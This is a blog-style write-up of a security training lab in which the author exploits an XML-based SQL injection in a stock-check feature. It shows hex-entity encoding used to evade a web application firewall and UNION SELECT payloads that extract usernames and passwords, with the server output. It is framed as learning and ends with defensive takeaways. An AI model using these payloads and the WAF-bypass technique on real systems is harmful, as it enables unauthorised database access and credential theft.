 ```yaml
---
title: 
date: 
categories: 
tags: 
author: 
image:
  path: 
  alt: 
---
```

Introduction
SQL Injection (SQLi) vulnerabilities are common attack vectors where an attacker can manipulate the SQL queries executed by the server. These vulnerabilities can exist in various parts of an application, including forms that accept user input. However, attackers can also exploit SQLi through more obscure input vectors, such as XML or JSON-based requests.

In this blog, I’ll walk through an advanced XML-based SQL injection attack where I was able to bypass the application’s Web Application Firewall (WAF) and retrieve sensitive user credentials, such as usernames and passwords. The target application was vulnerable in its stock check feature, allowing me to perform a UNION-based SQLi attack.

Understanding XML-Based SQL Injection
Some web applications process input in different formats, including JSON and XML, which are then translated into SQL queries. This is significant because the typical SQL injection defenses (like those looking for certain keywords) can often miss attacks that use these alternative formats or encoding techniques.

In this lab, the stock check feature was vulnerable, allowing SQL injection via the XML input. The goal was to retrieve usernames and passwords stored in the database by injecting a malicious SQL query into the XML request.

Here’s how I approached and solved the lab.

Step-by-Step Solution
1. Identifying the Vulnerability
First, I identified that the application processed the stock check requests in XML format. The application’s response to these requests included information about available stock units for a given product and store. This gave me a potential injection point in the storeId field within the XML payload.

An example of the XML request looks like this:

<stockCheck>
    <productId>123</productId>
    <storeId>999</storeId>
</stockCheck>
My initial attempts to inject SQL queries into the storeId field were blocked by the WAF. The server returned an "Attack Detected" error, indicating that the application had some form of protection in place.

2. Bypassing WAF Using Hex Encoding
To bypass the WAF, I encoded the SQL injection payload using hex entities, which is a technique that can often slip past keyword-based defenses. Using the hex entity encoding for SQL keywords, I was able to execute my injection successfully. The payload looked like this:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>3</productId>
    <storeId><@hex_entities>1 UNION SELECT NULL<@/hex_entities></storeId>
</stockCheck>
Analysis:
The response I received from the server indicated that the query was expecting only one column in the result. When I tried using two or more columns, the output didn’t match the expected format, confirming that the query returned just one column.

3. Retrieving Usernames
Next, I focused on retrieving data from the users table, which contained sensitive information such as usernames and passwords. Since the database schema was already known, I crafted a UNION-based SQL injection payload to retrieve the usernames first:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>3</productId>
    <storeId><@hex_entities>1 UNION SELECT username FROM users<@/hex_entities></storeId>
</stockCheck>
Output received:

administrator
carlos
wiener
570 units
This confirmed that the username column was successfully extracted from the users table.

4. Retrieving Passwords
After extracting the usernames, I shifted my focus to retrieving the passwords. I adjusted the query to select the password column instead of username:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>3</productId>
    <storeId><@hex_entities>1 UNION SELECT password FROM users<@/hex_entities></storeId>
</stockCheck>
Output received:

dummy_pass
dummy_pass_2
dummy_pass_3
570 units
The passwords for each user were successfully retrieved.

5. Combining Usernames and Passwords
To make the data more readable and usable, I combined the usernames and passwords into a single string using the SQL concatenation operator (||):

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>3</productId>
    <storeId><@hex_entities>1 UNION SELECT username || ':' || password FROM users<@/hex_entities></storeId>
</stockCheck>
Output received:

wiener:b5ztqjs9vgnc41ogbzrg
administrator:required_pass
carlos:5mkylldaeitoj88rjf7z
570 units
This gave me the usernames and their corresponding passwords in a clear format. After obtaining the passwords we have to login as administrator in order to solve the lab.

Conclusion
In this blog, we explored how SQL injection can be exploited even in cases where the input is in XML format, bypassing standard defenses such as Web Application Firewalls (WAFs). By using hex encoding for SQL keywords, I was able to execute a UNION-based SQL injection and retrieve sensitive data such as usernames and passwords.

This example underscores the importance of secure input handling across all data formats and the need for a robust defense-in-depth strategy to protect web applications from such attacks.

Key Takeaways:

SQL Injection vulnerabilities can exist in any controllable input, not just form fields.
Encoding SQL keywords (e.g., using hex entities) can bypass WAFs or other security mechanisms.
It’s essential to secure all inputs, including XML and JSON, against SQL injection.
Stay tuned for more insights and walkthroughs as I learn more on web application security and Cyber Security!
